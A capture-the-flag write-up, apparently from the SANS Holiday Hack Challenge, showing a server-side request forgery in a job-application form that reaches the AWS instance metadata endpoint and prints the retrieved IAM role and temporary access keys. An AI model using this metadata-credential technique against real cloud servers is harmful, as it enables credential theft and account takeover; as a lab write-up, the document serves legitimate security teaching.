

# Now Hiring!

Or how I learned to stop requesting and having the server request for me.

The basic idea of the site talks about how Jack Frost is hiring for all sorts of new positions, and allows you to apply for a position as long as your NLBI (Naughty List something something) report is valid. A sample link is listed: http://nppd.northpolechristmastown.com/NLBI/YourReportIdGoesHere

This site actually works! And was used in the SANS holiday hack challenge, 2017.

Since the form asks for a url, I wanted to see if it would reach out to me:


Sure enough, it did. Didn't really give me much to go on though.


Though I remember, this is an AWS instance. I wonder if I have access to the IMDS service?


Submitting...


Nothing really.

But after a lot of fuzzing, I discovered something interesting. Change the name to something really simple, like a number! I don't understand the logic there but here we are!

New submission...



The result!


A broken image...The image links to https://apply.jackfrosttower.com/images/99.jpg and it won't load. What happens if I cURL it?

```sh
root@mininode:~# curl https://apply.jackfrosttower.com/images/99.jpg
latest
```

It returns the string "latest"! I have access to the IMDS instance and can successfully return the output in the form of an image that I can cURL!

From the terminal, I can perform a GET to obtain the identity access management security role:

`http://169.254.169.254/latest/meta-data/iam/security-credentials`

And the output:

```sh
root@mininode:~# curl https://apply.jackfrosttower.com/images/99.jpg ; echo
jf-deploy-role
```

So with that, I can obtain the credentials by hitting `http://169.254.169.254/latest/meta-data/iam/security-credentials/jf-deploy-role`

And the output:

```sh
root@mininode:~# curl -s https://apply.jackfrosttower.com/images/99.jpg | jq
{
  "Code": "Success",
  "LastUpdated": "2021-05-02T18:50:40Z",
  "Type": "AWS-HMAC",
  "AccessKeyId": "AKIA5HMBSK1SYXYTOXX6",
  "SecretAccessKey": "CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX",
  "Token": "NR9Sz/7fzxwIgv7URgHRAckJK0JKbXoNBcy032XeVPqP8/tWiR/KVSdK8FTPfZWbxQ==",
  "Expiration": "2026-05-02T18:50:40Z"
}
```

Got the SecretAccessKey!